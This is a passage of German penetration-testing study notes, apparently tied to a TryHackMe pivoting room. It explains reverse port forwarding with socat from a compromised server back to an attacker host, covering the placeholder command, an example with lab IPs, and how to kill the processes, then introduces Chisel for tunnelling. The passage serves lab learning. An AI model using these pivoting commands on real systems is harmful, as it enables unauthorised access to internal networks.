 Auf dem gehackten System führen wir folgendes aus:

>socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &

Dadurch wird eine Verbindung zwischen unserem Listener Port 8001 auf dem angreifenden Computer und dem offenen Port des Zielservers hergestellt. Um das fiktive Netzwerk von zuvor zu verwenden, könnten wir diesen Befehl wie folgt eingeben:

>socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &

Dadurch würde eine Verbindung zwischen Port 8000 auf unserem angreifenden Computer und Port 80 auf dem beabsichtigten Ziel (172.16.0.10) hergestellt, was bedeutet, dass wir im Webbrowser unseres angreifenden Computers zu localhost:8000 gehen könnten, um die vom Ziel bereitgestellte Webseite zu laden: 172.16.0.10:80!

Die Visualisierung dieses Szenarios ist recht komplex. Sehen wir uns also kurz an, was passiert, wenn Sie versuchen, in Ihrem Browser auf die Webseite zuzugreifen:

Die Anfrage geht an 127.0.0.1:8000
Aufgrund des Socat-Listeners, den wir auf unserem eigenen Computer gestartet haben, kommt alles, was in Port 8000 geht, aus Port 8001 heraus
Port 8001 ist direkt mit dem Socat-Prozess verbunden, den wir auf dem kompromittierten Server ausgeführt haben. Das bedeutet, dass alles, was von Port 8001 kommt, an den kompromittierten Server gesendet wird, wo es an Port 80 auf dem Zielserver weitergeleitet wird.

Der Vorgang wird dann umgekehrt, wenn das Ziel die Antwort sendet:

Die Antwort wird an den Socat-Prozess auf dem kompromittierten Server gesendet. Was in den Prozess einfließt, kommt auf der anderen Seite heraus, die zufällig direkt mit Port 8001 auf unserem angreifenden Rechner verbunden wird.
Alles, was in Port 8001 auf unserem angreifenden Computer eingeht, kommt über Port 8000 auf unserem angreifenden Computer, wo der Webbrowser seine Antwort erwartet, sodass die Seite empfangen und gerendert wird.

Wir haben jetzt das Gleiche wie zuvor erreicht, jedoch ohne Ports auf dem Server zu öffnen. Cool oder?

Wie schließen wir das ganze wieder? Die Lösung ist einfach: Führen Sie den Befehl **jobs** in Ihrem Terminal aus und beenden Sie dann alle Socat-Prozesse mit kill %NUMBER:
![alt text](image-6.png)

Empfehlenswert wäre hier der [Shell](https://tryhackme.com/r/room/introtoshells)-Room.

### Chisel

Mit [Chisel](https://github.com/jpillora/chisel) können wir ganz leicht ein Proxy Tunnel oder Portforwarding durch ein gehacktes System realisieren, ganz egal ob wir SSH Zugang haben, oder nicht. 
Da es in Golang geschrieben wurde, lässt es sich für nahezu jedes System kompellieren (Es gibt auch statische Binaries). Es beinhaltet im Prinzip die gleichen Funktionen die wir bereits beim SSH Proxy/Portwarding kennengelernt haben, allerdings braucht man nicht zwingend eine SSH Verbindung, was ein Vorteil sein kann.
